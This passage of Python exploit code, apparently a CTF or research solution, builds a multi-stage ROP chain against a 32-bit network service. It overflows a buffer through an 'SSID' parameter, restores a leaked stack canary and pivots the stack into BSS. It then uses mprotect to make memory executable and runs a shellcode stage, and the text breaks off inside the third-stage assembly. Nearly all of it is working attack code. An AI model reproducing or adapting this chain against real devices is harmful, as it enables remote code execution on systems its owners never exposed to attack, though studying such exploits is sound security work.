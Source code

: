```python
pop_esp = p32(LIBC_BASE + 0x172428)

# binary functions
Read = p32(BIN_BASE + 0x266d)

# binary gadgets
pop_ebx = p32(BIN_BASE + 0x101e)
pop_edi_ebp = p32(BIN_BASE + 0x1b90)
next_inst = p32(BIN_BASE + 0x101b)

call_eax = p32(BIN_BASE + 0x1019)

EXPLOIT  = b"A" * 465
EXPLOIT += p32(CANARY)
EXPLOIT += b"B" * 12

EXPLOIT += Read
EXPLOIT += pop_edi_ebp
EXPLOIT += p32(SOCK)
EXPLOIT += p32(BSS + 0x300)

EXPLOIT += pop_esp # stack pivot
EXPLOIT += p32(BSS + 0x300)

log.info("Stage 1")
setParam("SSID", EXPLOIT)

EXPLOIT = mprotect
EXPLOIT += next_inst

EXPLOIT += p32(BSS)
EXPLOIT += p32(0x1000)
EXPLOIT += p32(0x7)

EXPLOIT += Read
EXPLOIT += next_inst
EXPLOIT += p32(SOCK)
EXPLOIT += p32(BSS + 0x500)
EXPLOIT += b"A" * 4

EXPLOIT += pop_eax
EXPLOIT += p32(BSS + 0x500)

EXPLOIT += call_eax

log.info("Stage 2")
io.sendline(EXPLOIT)

HEAP_END_OFFSET_TO_FP = 0x21e60

# Stage 3
ASM = f"""
    mov esp, {BSS + 0x900}

    xor eax, eax
    xor ebx, ebx

    mov eax, 45
    int 0x80

    sub eax, {HEAP_END_OFFSET_TO_FP}
    push eax

```